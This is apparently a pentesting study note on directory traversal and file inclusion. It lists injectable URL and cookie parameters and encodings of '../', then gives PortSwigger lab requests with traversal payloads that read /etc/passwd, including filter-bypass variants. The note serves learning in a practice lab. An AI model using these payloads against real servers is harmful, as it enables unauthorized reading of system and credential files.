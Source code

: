 # Authorization Testing
## Directory traversal File Include

### Techniques

1. Input Vector Enumeration 
* Are there request parameters which could be used for file-related operations?
* Are there unusual file extensions?
* Are there interesting variable names?
	+ **http://example.com/getUserProfile.jsp?item=ikki.html >>**
	  `item=ikki.html >> ikki >> inject`
	+ **http://example.com/index.php?file=content >>**
	  `file=content >> content >> inject`
	+ **http://example.com/main.cgi?home=index.htm >>**
	  `home=index.htm >> index >> inject`

* In Cookie
	+ Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower 
	`>> TEMPLATE=flower >> flower >> inject`

	+ Cookie: USER=1826cc8f:PSTYLE=GreenDotRed

		`>>PSTYLE=GreenDotRed >> GreenDotRed >> inject`


* Unix like OS: /
* Windows : `<drive letter>: , /`
* MAC OS : `<drive letter>: , :`
* URL encoding and double URL encoding :
```urlencode
%2e%2e%2f => ../ 
%2e%2e/ => ../
..%2f => ../
%2e%2e%5c => ..\
%2e%2e\ => ..\
..%5c => ..\
%252e%252e%255c => ..\
```
* Unicode/UTF-8 Encoding
```UTF
..%c0%af => ../
..%c1%9c => ..\
```
#### Practrice in PortSwigger Lab

 ```http
 GET /image?filename=../../../etc/passwd HTTP/1.1
 ```

 ![dir](./img/dir.png) 
 
 ```http
 GET /image?filename=....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd HTTP/1.1
 ```
![dir2](./img/dir2.png)

```http
GET /image?filename=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd HTTP/1.1
```
![dir3](./img/dir3.png)

```http
GET /image?filename=/var/www/images/../../../../../etc/passwd HTTP/1.1
```
![dir4](./img/dir4.png)

```http
GET /image?filename=/../../../../../../../../../../../etc/passwd.png HTTP/1.1
```
![dir5](./img/dir5.png)